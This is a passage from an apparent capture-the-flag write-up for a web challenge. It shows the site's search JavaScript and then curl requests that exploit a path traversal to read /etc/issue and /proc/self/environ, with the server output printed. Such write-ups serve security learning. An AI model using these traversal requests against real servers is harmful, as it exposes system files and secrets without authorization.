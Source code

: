```javascript
function search() {
  const file = document.getElementById("files").value;
  const term = document.getElementById("searchterm").value;
  const url = document.location.origin + "?file=" + escape(file) + "&term=" + escape(term);

  if (term.length < 4) {
    alert("Search term must be at least 4 characters long!");
    return;
  }

  document.getElementById("found").value = "Loading...";

  const xhr = new XMLHttpRequest();
  xhr.onload = function() {
    document.getElementById("found").value = xhr.responseText;
  }
  xhr.open("GET", url);
  xhr.send();
}
```

We can, of course, ignore everything in this function and just craft our own GET request, although the minimum length of `term` value is actually enforced on the server:

```shell
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=aur'
(nothing)
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=hexdump.txt&term=auro'
0001bd20  d2 04 69 98 10 00 00 00  66 3a 5c 41 75 72 6f 72  |..i.....f:\Auror|
0001bd30  61 5f 53 72 63 5c 41 75  72 6f 72 61 56 4e 43 5c  |a_Src\AuroraVNC\|
```

After tinkering with the `file` parameter, I discovered a path traversal vulnerability, which is tricky to exploit because we need to know at least 4 characters of the text we want to display:

```shell
❯ curl 'https://aurora-web.h4ck.ctfcompetition.com/?file=../../etc/issue&term=bunt'
Ubuntu 20.04 LTS \n \l
```

Now, we need to find the flag... Let's search the environment first:

```shell
❯ curl -s 'https://aurora-web.h4ck.ctfcompetition.com/?file=../../proc/self/environ&term=http' \
    --output - | tr '\0' '\n'
SERVER_NAME=aurora-web.h4ck.ctfcompetition.com
SCRIPT_NAME=/cgi-bin/nsjail-perl-cgi
[...]
REDIRECT_URL=/index.pl
[...]
```

Unfortunately, no flag here, but we can see something quite interesting: this is a GCI script, using Perl.

